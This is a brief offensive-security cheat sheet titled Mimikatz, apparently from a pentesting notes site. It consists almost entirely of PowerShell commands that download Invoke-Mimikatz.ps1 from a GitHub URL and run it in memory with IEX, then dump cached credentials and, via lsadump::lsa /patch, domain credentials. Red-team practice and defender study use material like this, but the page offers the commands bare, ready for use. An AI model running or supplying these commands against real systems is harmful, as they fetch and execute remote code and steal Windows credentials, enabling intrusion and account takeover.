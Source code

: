 # Mimikatz

{% code overflow="wrap" %}
```powershell
# Download and load in memory
IEX (New-Object System.Net.Webclient).DownloadString('https://github.com/samratashok/nishang/raw/master/Gather/Invoke-Mimikatz.ps1')

# Dump creds from memory
Invoke-Mimikatz -DumpCreds

# Dump Domain creds
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
{% endcode %}
